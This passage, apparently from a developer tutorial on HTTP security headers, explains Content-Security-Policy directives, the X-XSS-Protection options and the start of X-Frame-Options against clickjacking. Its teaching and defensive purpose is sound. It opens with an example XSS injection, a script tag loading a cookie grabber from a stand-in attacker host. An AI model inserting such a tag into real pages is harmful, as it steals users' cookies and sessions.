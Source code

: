 ```html
<script src="attacker.com/cookie_grabber.js"></script>
```

There are many different directives of the policy, but the most important one is "script-src", which defines where scripts can be loaded from. Other directives include "default-src", "object-src", "img-src", and more. You can define a policy using the header syntax:

```
Content-Security-Policy: RESOURCE-TYPE ORIGIN ORIGIN ORIGIN ...
```

For example, this policy limits the source of scripts to the current domain, and "www.okta.com". "self" represents the current domain.

```
Content-Security-Policy: script-src 'self' https://www.okta.com
```

The "default-src" directory defines the policy for any resource that does not already have a policy. For example, this policy tells the browsers that all scripts should come from subdomains of "okta.com", and all other resources should only load from the current domain.

```
Content-Security-Policy: default-src 'self'; script-src https://*.okta.com
```

### X-XSS-Protection

This header controls the XSS auditor on the user's browser. There are four options for this header.

```
X-XSS-Protection: 0 (Turns off XSS Auditor)
X-XSS-Protection: 1 (Turns on XSS Auditor)

X-XSS-Protection: 1; mode=block (Turns on XSS Auditor, prevent rendering the page when an attack is detected)

X-XSS-Protection: 1; report=REPORT_URI (Sanitizes the page and sends a report to the report URL when an attack is detected)
```

XSS auditors are built-in XSS filters implemented by some browsers. However, they are not a reliable way to protect your site against XSS attacks. Many browsers have removed their built-in XSS auditor because they can help attackers bypass XSS controls implemented by websites.

The current best practice is turning the XSS auditor off and implementing comprehensive XSS protection on the server side.

```
X-XSS-Protection: 0
```

### X-Frame-Options

The X-Frame-Options header prevents clickjacking attacks. Clickjacking is an attack in which attackers frame the victim site as a transparent layer on a malicious page to trick users into executing unwanted actions.
